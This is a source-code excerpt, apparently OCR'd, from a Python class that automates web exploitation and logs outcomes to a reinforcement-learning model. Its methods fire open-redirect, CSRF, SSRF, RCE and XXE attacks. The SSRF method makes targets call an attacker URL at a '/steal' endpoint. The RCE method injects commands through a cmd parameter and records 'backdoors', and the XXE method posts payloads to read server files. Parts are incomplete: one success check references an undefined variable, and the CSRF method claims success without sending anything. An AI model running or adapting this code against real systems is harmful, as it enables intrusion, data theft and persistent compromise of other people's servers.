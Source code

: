     def exploit_open_redirect(self, vuln):
        url = vuln["url"]
        payload = vuln["payload"]
        print(f"[*] Exploiting Open Redirect on {url} with payload: {payload}")
        success = True
        print("[!] Open Redirect exploited! Can be used for phishing.")
        self.update_rl_model("exploit", success)

    def exploit_csrf(self, vuln):
        url = vuln["url"]
        print(f"[*] Exploiting CSRF on {url}...")
        success = False
        try:
            print(f"[!] CSRF exploited! Example: Submitting a malicious POST request to {url}")
            success = True
        except Exception as e:
            print(f"[!] Error exploiting CSRF: {e}")
        self.update_rl_model("exploit", success)

    def exploit_ssrf(self, vuln):
        url = vuln["url"]
        payload = vuln["payload"]
        print(f"[*] Exploiting SSRF on {url} with payload: {payload}")
        success = False
        try:
            ssrf_payload = f"{self.attacker_url}/steal?data=SSRF"
            test_url = f"{url}?url={ssrf_payload}"
            self.session.get(test_url, timeout=10)
            time.sleep(2)
            if stolen_data:
                print(f"[!] SSRF exploited! Server made a request to our server: {stolen_data[-1]}")
                success = True
        except Exception as e:
            print(f"[!] Error exploiting SSRF: {e}")
        self.update_rl_model("exploit", success)

    def exploit_rce(self, vuln):
        url = vuln["url"]
        payload = vuln["payload"]
        print(f"[*] Exploiting RCE on {url} with payload: {payload}")
        success = False
        try:
            response = self.session.get(f"{url}?cmd={payload}", timeout=10)
            print(f"[!] RCE exploited! Output:\n{response.text[:500]}...")
            self.backdoors.append({"type": "RCE", "url": url})
            success = True
        except Exception as e:
            print(f"[!] Error exploiting RCE: {e}")
        self.update_rl_model("exploit", success)

    def exploit_xxe(self, vuln):
        url = vuln["url"]
        payload = vuln["payload"]
        print(f"[*] Exploiting XXE on {url}...")
        success = False
        try:
            headers = {"Content-Type": "application/xml"}
            response = self.session.post(url, data=payload, headers=headers, timeout=10)
            print(f"[!] XXE exploited! File content:\n{response.text[:500]}...")
            success = True
        except Exception as e:
            print(f"[!] Error exploiting XXE: {e}")
        self.update_rl_model("exploit", success)
